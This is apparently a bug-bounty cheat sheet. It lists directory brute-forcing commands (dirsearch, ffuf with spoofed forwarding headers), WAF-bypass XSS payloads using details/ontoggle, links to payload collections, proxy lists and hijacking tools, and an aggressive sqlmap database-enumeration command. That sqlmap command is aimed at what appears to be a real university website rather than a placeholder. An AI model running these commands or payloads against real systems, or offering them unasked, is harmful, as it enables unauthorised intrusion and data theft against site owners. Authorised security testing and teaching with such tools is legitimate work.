 ## Dir Buster

dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1

ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0" -H "X-Forwarded-For: 127.0.0.1" -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-Host: localhost" -t 100 -r -o results.json

[www.cspbypasser.com](http://cspbypass.com/)

Passive Url's: https://sawravchy.github.io/archivefinder/

Firefox Extensions:

https://github.com/kevin-mizu/domloggerpp?tab=readme-ov-file

https://chromewebstore.google.com/detail/sessionbox-multi-login-to/megbklhjamjbcafknkgmokldgolkdfig?hl=en

Hackbar: https://addons.mozilla.org/en-US/firefox/addon/maxs-hackbar/



Payloads:

https://github.com/coffinxp/lostools/blob/main/payloads/payloads/xor.txt
 https://tib3rius.com/sqli

 XSS: WAF <details/open/id="&quote;"ontoggle=[JS]>

<details/open/id="&quote;"ontoggle=[JS]>

<details open id="' &quote;'"ontoggle=[JS]>
 
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

 Practice: https://www.bugbountyhunter.com/

 Nuclei Teamplates: https://nuclei-templates.netlify.app/#q=pdteam

 Proxy Chains Socks: https://github.com/TheSpeedX/PROXY-List

 Writeups: https://www.bugbountyhunting.com/

 Encoder/Decoder: https://dencode.com/

Broken Link Hijacking: https://github.com/H4cker-Nafeed/Nafeed-Broken-Link

Burp Extensions: https://portswigger.net/bappstore/b4915681326648b1a12e4059d71bc909

Writeups: https://github.com/reddelexc/hackerone-reports/tree/master/tops_by_bug_type

SQL Map:sqlmap -u 
'https://cutm.ac.in/payu/skill/index.php?id=34' --batch --dbs --threads=5 --random-agent --risk=3 --level=5 --tamper=space2comment -v 3 --dbms  MySQL

Wayback Url: https://web.archive.org
